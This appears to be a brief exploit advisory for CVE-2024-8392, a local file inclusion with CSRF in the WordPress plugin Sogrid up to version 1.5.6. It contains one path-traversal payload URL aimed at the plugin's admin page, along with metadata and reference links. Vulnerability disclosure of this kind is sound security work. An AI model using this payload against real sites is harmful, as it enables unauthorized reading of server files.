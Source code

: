 ## WordPress Post Grid Layouts with Pagination – Sogrid <= 1.5.6 - Authenticated (Admin+) Local File Inclusion with CSRF
- Exploit Title: WordPress Post Grid Layouts with Pagination – Sogrid <= 1.5.6 - Authenticated (Admin+) Local File Inclusion with CSRF
- Date: 04/08/2024
- Exploit Author: Paul
- Vendor Homepage: https://delabon.com/
- Software Link: https://wordpress.org/plugins/sogrid/
- Version: 1.5.2
- CVE : CVE-2024-8392
- Severity: High
- Payload: http://localhost/wordpress/wp-admin/admin.php?page=sogrid&tabe=..%2Ffile
- POC: https://imgur.com/W0nIrf8
## References
- https://nvd.nist.gov/vuln/detail/CVE-2024-8392
- https://plugins.trac.wordpress.org/browser/sogrid/trunk/src/admin-panel/views/panel.php
- https://www.wordfence.com/threat-intel/vulnerabilities/id/62d81e01-9b6e-48e9-b9da-85444a3694e7?source=cve
- https://cvefeed.io/vuln/detail/CVE-2024-8392
- https://www.tenable.com/cve/CVE-2024-8392
